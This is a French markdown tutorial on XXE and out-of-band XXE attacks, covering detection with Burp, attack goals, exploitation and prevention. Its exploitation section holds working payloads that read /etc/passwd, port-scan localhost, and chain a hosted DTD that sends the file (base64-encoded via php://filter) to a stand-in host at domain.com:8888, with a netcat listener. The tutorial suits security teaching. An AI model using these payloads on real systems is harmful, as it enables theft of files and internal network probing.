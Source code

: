# Failles web - XXE & OOB-XXE

## Description
L'attaque XXE (eXternal XML Entities) est assez peu répandue et pourtant elle peut provoquer de gros dégâts. Elle est issue d'un problème de configuration et continuera à exsiter tant que sera utilisé un DTD avec la possiblité de solliciter des entités externes.

Le DTD est un fichier ou une portion du XML,Q  qui permet de définir la grammaire du document XML à travers la définition des types. Les entités (interne ou externe) identifié par la balise `<!ENTITY> est l'équivalent d'une variable. Si elle est externe, elle peut potentiellement provenir d'un utilisateur mal intentionné. Les internes ne sont pas dangeureuses.

## Détection
A travers le trafic intercepté avec un proxy comme Burp, l'envoi d'une portion de XML contenant la balise `ENTITY` est un point d'entrée.

Par exemple en Java, les outils Actuator et Jolokia utilisés avec Spring Boot ont démontré des vulnérabilités à cette attaque.

Une webapp qui utilise des DTD autorisants les entités externes est par définition vulnérable.

## Intention
Grâce à cette faille il est possible:
* d'injecter du code, avec par exemple la fonction PHP `expect()` ou d'installer un shell
* d'accéder au système de fichier et d'afficher le contenu d'un fichier sensible, par exemple `/etc/passwd`
* de scanner la machine ou le réseau

## Exploitation

### Accès au fichier /etc/passwd
Il suffit d'intercepter le trafic avec Burp et repéré une entité externe et de la remplacé dans le module repeater par ceci:

    <!ENTITY desc SYSTEM "file:///etc/passwd">
Si nécessaire en utilisant les version % pour les caractères spéciaux.

### Port scanning
Il suffit d'intercepter le trafic avec Burp et repéré une entité externe et de la remplacé dans le module repeater par ceci:

    <!DOCTYPE scan [<!ENTITY test SYSTEM "http://localhost:22">]>
Si nécessaire en utilisant les version % pour les caractères spéciaux.

### OOB-XXE et contounrement de filtre
Si la cible met en place des rescrictions sur les caractères ou fichier, il est possible de le contouner en utilisant notre DTD, d'où le Out Of Band XXE.
Pour cela il faudra hébergr notre DTD et injecter une référence vers lui dans l'ENTITY à exploiter. Ex:

    <!ENTITY % dtd SYSTEM "http://domain.com/payload.dtd"> %dtd;
Dans ce DTD nous allons injectons notre intention, récupérer le fichier `/etc/passwd` dans `file` et nous l'envoyer:

    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % all "<!ENTITY send SYSTEM 'http://domain.com:8888/collect=%file;'>"> %all;
Il faudra bien sûr avoir un port en écoute:

    $ nc -l -p 8888
Il est possible d'obtenir une erreur lors du parse si le parser filtre les caracères spéciaux et la lecture des fichiers en contenant. Pour contourner cela, il faut utiliser l'encodage en base64:

    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
    <!ENTITY % all "<!ENTITY send SYSTEM 'http://domain.com:8888/collect=%file;'>"> %all;

## Prévention
Le seul moyen est d'interdire l'utilisation d'entité externe au niveau du parseur. Ce qui n'est pas toujours possible de faire si le ârseur en questione est une librairie utilisée dans le cadre de la sérialisation.


## Liens
